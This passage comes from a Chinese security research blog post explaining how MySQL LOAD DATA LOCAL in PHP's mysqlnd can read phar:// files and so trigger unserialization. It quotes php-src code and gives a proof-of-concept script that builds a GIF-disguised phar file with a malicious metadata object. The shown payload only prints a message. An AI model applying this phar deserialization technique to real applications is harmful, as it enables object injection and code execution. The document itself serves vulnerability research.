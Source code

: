 在该议题中提到，在PHP中存在一个叫做[Stream API](https://secure.php.net/manual/zh/internals2.ze1.streams.php)，通过注册拓展可以注册相应的伪协议，而phar这个拓展就注册了`phar://`这个stream wrapper。

在我们知道创宇404实验室安全研究员seaii曾经的研究([https://paper.seebug.org/680/](https://paper.seebug.org/680/))中表示，所有的文件函数都支持stream wrapper。

![image.png-39.7kB][27]


深入到函数中，我们可以发现，可以支持steam wrapper的原因是调用了
```
stream = php_stream_open_wrapper_ex(filename, "rb" ....);
```

从这里，我们再回到mysql的load file local语句中，在mysqli中，mysql的读文件是通过php的函数实现的

```
https://github.com/php/php-src/blob/master/ext/mysqlnd/mysqlnd_loaddata.c#L43-L52

if (PG(open_basedir)) {
		if (php_check_open_basedir_ex(filename, 0) == -1) {
			strcpy(info->error_msg, "open_basedir restriction in effect. Unable to open file");
			info->error_no = CR_UNKNOWN_ERROR;
			DBG_RETURN(1);
		}
	}

	info->filename = filename;
	info->fd = php_stream_open_wrapper_ex((char *)filename, "r", 0, NULL, context);
```

也同样调用了`php_stream_open_wrapper_ex`函数，也就是说，我们同样可以通过读取phar文件来触发反序列化。

### 复现

首先需要一个生成一个phar

```
pphar.php

<?php
class A {
    public $s = '';
    public function __wakeup () {
        echo "pwned!!";
    }
}


@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a "."<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new A();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```


[1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3t0iv2wtgra8pjxb3hlgv4ao/image.png
[2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n0rx8iobd8fxtx5dunos7km3/image.png
[3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4x1yyuqbcnugcbqvzofcs3pp/OXDM5E5$ST51%5B$0B%60@BBG~S.png
[4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/eqng4m7z35a0b7qclj1jmg21/image.png
[5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7yori2fkfjl9dlmgtussxdd4/image.png
[6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/m6gjcjz5w63tnh79jjl2id7k/image.png
[7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bl2bviwpwbj3xbkd9ehp258g/image.png
[8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sx4ebpx0xtchs4lj0qvo09k/image.png
[9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tobzz9kf0ikfp3h5jqi07m4i/image.png
[10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b4xa1b2s05wue6o04k7i1wfw/image.png
[11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ock8gpk4wjufrzu434o4sh2e/image.png
[12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qwoi5pnwgiw1lmdcx5e7836b/image.png
[13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ub5d1ylbd28m9o8zalt4cnto/image.png
[14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dfs1q3dm1i6r10mjywgpp819/image.png
[15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mrqd72185373870f6wrdas8a/image.png
[16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y0x18uc96fwpov4bqn0qhhqj/image.png
[17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lwmbbklsfgdti60e8qyjqtw7/image.png
[18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/72iqa6e7i3928wckfuacxiny/image.png
[19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ijivo1toa7afcm4gug7tjzk5/image.png
[20]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0adbu75qrcuv8caau262m34i/image.png
[21]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6orndbdfrf1bqysouez1uauj/image.png
[22]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ciy78f57vftzichc3xg82qgd/image.png
[23]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ngn1u8fu15qz5d9830lrcbhn/image.png
[24]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xd6jvuhaofstoduthnb15a1w/image.png
[25]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vpa6tokfa26dng7eqr8bsubc/image.png
[26]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4cief0ku1991kkpavlda1lm6/image.png
[27]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1dl9y4ioznpis2z2xi5ixxdd/image.png
[28]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j27yhc2er961j4gqttmhwutu/image.png
[29]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4dr8vlhpn5lnn8ktq1jbn2ao/image.png
[30]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/twls59xuylfk78j4ikrk3eii/image.png
[31]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hwg8ahoh48odump72h6tf3c1/image.png
[32]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4ze2by2xa8jwgbnvpquoxxt6/image.png
[33]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ccwgrjox5x7nxklrtnaxaemk/image.png
[34]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g5mmomxuunolwnwd69vcf567/image.png
[35]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i9m3hv9246ziexne1c2d7iik/image.png
[36]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/notx2emuvmf7y0nd7w84sj14/image.png
[37]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qe1q1zcew7fxp32gtb4ub0jh/image.png
[38]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/otdllmlrbgd0tygavkolgnlb/image.png
[39]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4yfa4fir4mp1np0jc25gffnw/image.png
[40]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g7z10bjdd0dphkwuv4k17up7/image.png
[41]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/w9fokrfdntuwsgf9kx9ypcqa/image.png
[42]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4rfb6q9bzgunh41snsx2jqhp/image.png
[43]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1xt3jcs0jaiekw13t78nxymi/image.png
[44]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7yfr1ef8rzjggwaju4xyn9ld/image.png
[45]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8vwz2j222q7nh07r71m12cb4/image.png
[46]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7jbzoxpoon4bq9cbldg2zv8f/image.png